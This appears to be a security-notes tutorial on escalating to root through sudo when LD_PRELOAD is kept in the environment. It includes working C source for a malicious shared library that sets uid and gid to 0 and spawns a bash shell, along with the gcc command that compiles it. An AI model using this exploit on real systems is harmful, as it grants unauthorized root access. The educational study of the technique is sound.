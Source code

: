 # Introduction

The `LD_PRELOAD` environment variable can be used to tell the dynamic linker to load [specific libraries](../../../Reverse%20Engineering/Binary%20Formats/ELF/Dynamic%20Linking.md) before any others. 

By default, programmes run with `sudo` will be executed in a clean, minimal environment which is specified by `env_reset` when running `sudo -l`. However, `env_keep` may be used to inherit some environment variables from the parent process. 

![](res/Images/Sudo%20Escalation%20via%20LD_PRELOAD/Sudo%20-l%20LD_PRELOAD.png)

If `LD_PRELOAD` is specified together with `env_keep`, then we can compile our own malicious dynamic library and set `LD_PRELOAD` to it. Therefore, when we execute a binary with `sudo`, our library will be loaded before any other library and its initialisation function will be invoked with root permissions.

## Writing the Malicious Library

Writing the library is a fairly simple task. All we need to do is write an `_init` function in a C file. This procedure will contain the code we want to be executed when the library is loaded.

```cpp
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>

void _init()
{
	unsetenv("LD_PRELOAD"); // Unset LD_PRELOAD to avoid an infinite loop
	setgid(0); // Set root permissions
	setuid(0); // Set root permissions
	
	system("/bin/bash");
}

```

We begin by unsetting the `LD_PRELOAD` variable from the environment. This is to preclude an infinite loop when `/bin/bash` is invoked. If our library didn't unset `LD_PRELOAD`, then when `/bin/bash` is called, our library will again be loaded first and then proceed onto launching `/bin/bash` yet again, which will again load our library and so on.

The next two lines set the user and group IDs to those of `root` which ensures that the next commands are run with root privileges.

Finally, `system` is called in order to spawn a bash shell.

We now need to compile this file as a shared library:

```bash
gcc -fPIC -shared -o exploit.so exploit.c -nostartfiles
```

![](res/Images/Sudo%20Escalation%20via%20LD_PRELOAD/GCC%20Compile%20Library.png)

At last, we can invoke any binary with `sudo` and specify the path to our library as `LD_PRELOAD`. Note that the path to the library must be specified as an absolute path.

![](res/Images/Sudo%20Escalation%20via%20LD_PRELOAD/Preload%20Library.png)

